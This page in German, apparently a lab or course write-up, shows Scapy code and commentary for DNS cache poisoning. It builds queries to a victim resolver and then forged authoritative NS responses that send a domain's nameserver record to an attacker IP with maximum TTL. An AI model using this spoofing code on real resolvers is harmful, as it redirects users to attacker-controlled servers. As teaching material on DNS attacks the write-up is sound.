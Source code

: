 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
def a_request(domain):
    return IP(dst=victim_dns_ip) / UDP(dport=victim_dns_port_in) / DNS(
        id=42,
        qr=0,
        opcode=0,
        rd=1,
        ra=0,
        qdcount=1,
        ancount=0,
        nscount=0,
        arcount=0,
        qd=DNSQR(qname=domain, qtype='A', qclass='IN'),
        an=0,
        ns=0,
        ar=0
    )
\end{lstlisting}
\end{center}
Die Funktion initial\_request generiert eine Reguläre DNS-Anfrage, um den Ziel-Server auf zu fordern die Ziel-Domain auf zu lösen.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(
        sport=53, dport=victim_dns_port_out) / DNS(
        id=id,
        qr=1,
        opcode=0,
        aa=1,
        tc=0,
        ra=0,
        z=0,
        rcode=0,
        qdcount=1,
        ancount=0,
        nscount=1,
        arcount=1,
        ad=0,
        cd=0,
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        an=0,
        ns=DNSRR(rrname=target_domain, type='NS', rdata=known_ns_domain, ttl=MAX_TTL),
        ar=DNSRR(rrname=known_ns_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL)
    )
    return response
\end{lstlisting}
\end{center}
Mit der Funktion \emph{forged\_ns\_response} werden generische Antwortpakete generiert.
Die Funktion erhält mehrere Parameter, insbesondere die Transaktions-ID welche die Nachricht erhalten soll. Mit ihrer Hilfe werden zunächst alle möglichen Antworten generiert, die dann gebündelt zum Server gesandt werden können.

Der Parameter \emph{id} beinhaltet die Transaktionsnummer, der wert 1 für \emph{qr} legt fest, dass es sich um eine DNS Antwort und nicht eine Anfrage handelt. Der \emph{opcode} legt fest, dass es sich um einen Standard Query handelt. Mit \emph{aa} wird die Antwort als autoritativ markiert. Da die Antwort unter 512 Byte lang ist wird das Flag \emph{tc} auf 0 gesetzt. Das Flag \emph{ra} legt mit dem wert 0 fest, dass der Server keine Rekursiven anfragen erlaubt. \emph{z} ist ein reserviertes Flag, dass immer null sein muss. Mit \emph{rcode} wird die Antwort als OK markiert, es ist also kein Fehler aufgetreten. \emph{qdcount}, \emph{ancount}, \emph{nscount} und \emph{arcount} enthalten respektive die Anzahl von enthaltenen Frage, Antwort, Nameserver und Zusätlichen Einträgen in der Antwort.
Die Flags ad und cd sind für DNSSEC verantwortlich, was wir weder verwenden, noch unterstützen, weshalb sie auf null gesetzt sind. Zum Schluss kommen die eigentlichen Frage, Antwort, Nameserver und Zusätlichen Einträgen in den Parametern qd, an, ns und ar.
\end{document}
